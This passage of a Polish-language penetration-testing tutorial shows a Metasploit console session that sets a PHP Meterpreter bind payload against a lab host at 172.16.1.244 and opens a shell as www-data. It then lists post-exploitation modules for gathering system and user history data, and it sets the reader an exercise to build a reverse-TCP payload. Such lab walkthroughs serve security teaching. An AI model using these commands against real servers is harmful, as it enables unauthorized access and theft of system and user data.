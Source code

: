 ```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > set rhost 172.16.1.244
rhost => 172.16.1.244
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  5555             yes       The listen port
   RHOST  172.16.1.244     no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) >
[*] Started bind TCP handler against 172.16.1.244:5555
[*] Sending stage (39282 bytes) to 172.16.1.244
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.244:5555) at 2021-07-29 21:39:28 +0200
sessions

Active sessions
===============

  Id  Name  Type                   Information             Connection
  --  ----  ----                   -----------             ----------
  1         meterpreter php/linux  www-data (33) @ ubuntu  0.0.0.0:0 -> 172.16.1.244:5555 (172.16.1.244)
```
Najlepiej użyć tego samego ładunku do **Metasploit**a i ten, co wrzucamy na atakowany serwer. (Zadanie dla czytelnika. Spróbuj sam stworzyć ładunek i się połączyć, ale tym razem przez payload/php/meterpreter_reverse_tcp). 
{: .text-justify}
{: .notice--success}
Mamy sesję i możemy eksplorować podatny serwer. Teraz użyjemy modułów powłamaniowych, żeby ściągnąć trochę informacji na nasz komputer. Użyjemy dwóch modułów:
{: .text-justify}
- post/linux/gather/enum_system
- post/linux/gather/enum_users_history

